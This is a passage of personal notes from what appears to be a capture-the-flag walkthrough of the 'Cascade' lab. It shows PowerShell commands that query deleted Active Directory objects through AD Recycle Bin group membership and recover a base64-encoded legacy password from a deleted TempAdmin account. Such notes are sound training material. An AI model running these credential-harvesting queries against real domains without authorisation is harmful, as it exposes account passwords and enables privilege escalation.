 Logon hours allowed          All

Local Group Memberships      *AD Recycle Bin       *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```
- Looking through google I came across this link:
	- https://github.com/MicrosoftDocs/windowsserverdocs/blob/main/WindowsServerDocs/identity/ad-ds/get-started/adac/active-directory-recycle-bin.md
	- I tried to restore a user (although I shouldn't have as that wouldn't do much) but got a permission error:
		```bash
Get-ADObject -Filter 'Name -Like "*User*"' -IncludeDeletedObjects
Get-ADObject -Filter 'Name -Like "*TempAdmin*"' -IncludeDeletedObjects
Get-ADObject -Filter 'Name -Like "*TempAdmin*"' -IncludeDeletedObjects | Restore-ADObject

---OUTPUT---
Insufficient access rights to perform the operation
At line:1 char:74
+ ...  'Name -Like "*TempAdmin*"' -IncludeDeletedObjects | Restore-ADObject
+                                                          ~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (CN=TempAdmin\0A...ascade,DC=local:ADObject) [Restore-ADObject], ADException
    + FullyQualifiedErrorId : 0,Microsoft.ActiveDirectory.Management.Commands.RestoreADObject
```
	- Then I tried to enable AD Recycle Bin but the machine hung (again, unnecessary)
		```bash
Enable-ADOptionalFeature -Identity 'CN=Recycle Bin Feature,CN=Optional Features,CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=cascade,DC=local' -Scope ForestOrConfigurationSet -Target 'cascade.local'

---OUTPUT---
Warning: Enabling 'Recycle Bin Feature' on 'CN=Partitions,CN=Configuration,DC=cascade,DC=local' is an irreversible action! You will not be able to disable 'Recycle Bin Feature' on 'CN=Partitions,CN=Configuration,DC=cascade,DC=local' if you proceed.

y
^C                                        
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError                                                                                                    
                                        
Error: Exiting with code 1
```
	- Then looking back at my second command, I tried to simply get more information on the TempAdmin user 
		```bash
Get-ADObject -Filter 'Name -Like "*TempAdmin*"' -IncludeDeleted -Properties *
--OR--
Get-ADObject -Filter 'Name -Like "*TempAdmin*"' -IncludeDeleted -Properties * | findstr /i  pwd

---RELEVANT-OUTPUT---
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
```
		- Alternatvely on searching google for "query deleted objects get addomain" I found this link
			- https://forums.powershell.org/t/find-all-deleted-ad-objects-in-the-past-30-days/3731
				```bash
Get-ADObject -SearchBase 'CN=Deleted Objects, DC=cascade, DC=local' -Filter {ObjectClass -eq 'user'} -IncludeDeletedObjects -Properties * | ft CN,LastKnownParent,whenChanged -AutoSize
```
			- Simply remove the filter and we get all properties where we can find the Password (alternatively we can search for str and if we search for pwd without it being case sensitive we will find it):
				```bash
Get-ADObject -SearchBase 'CN=Deleted Objects, DC=cascade, DC=local' -Filter {ObjectClass -eq 'user'} -IncludeDeletedObjects -Properties *
```